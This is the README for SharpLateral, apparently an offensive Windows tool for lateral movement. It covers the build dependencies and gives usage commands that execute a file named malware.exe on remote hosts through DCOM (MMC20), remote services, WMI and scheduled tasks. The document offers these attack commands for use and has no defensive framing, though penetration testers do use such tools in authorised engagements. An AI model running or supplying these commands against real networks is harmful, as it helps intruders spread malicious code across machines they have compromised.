 # SharpLateral

## Compiling Project

Below 3rd party libraries are used in this project.

<b>TaskScheduler</b><br>https://github.com/dahall/TaskScheduler<br>
<b>Fody</b><br>	https://github.com/Fody/Fody<br><br>
Load the Visual Studio project up and go to "Tools" > "NuGet Package Manager" > "Package Manager Settings"<br>
Open "NuGet Package Manager" > "Package Sources"<br><br>
<b>Install the Fody</b><br>``Install-Package Costura.Fody -Version 3.3.3``<br><br>
<b>Install the Taskscheduler</b><br>``Install-Package TaskScheduler -Version 2.8.11``

## Usage

SharpLateral aims to perform lateral movement with the following methods:<br>

- DCOM
- SERVICE
- WMI
- SCHEDULED TASKS

  <br>DCOM:<br>
``SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe``<br>
````Executes Malware on given hostname via MMC20````
 <br>Scheduled Task:<br>
``SharpLateral schedule C:\Users\Administrator\Desktop\malware.exe TaskName``<br>
Creates Task,Executes Malware,Deletes Task<br>
<br>Service:<br>
``SharpLateral.exe redexec HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe.exe malware.exe ServiceName``<br>
  Creates Service and executes malware with it
<br>WMI:<br>
 ``SharpLateral redwmi Client2 C:\\Users\\Administrator\\Desktop\\malware.exe``<br>
Executes malware via WMI on remote host




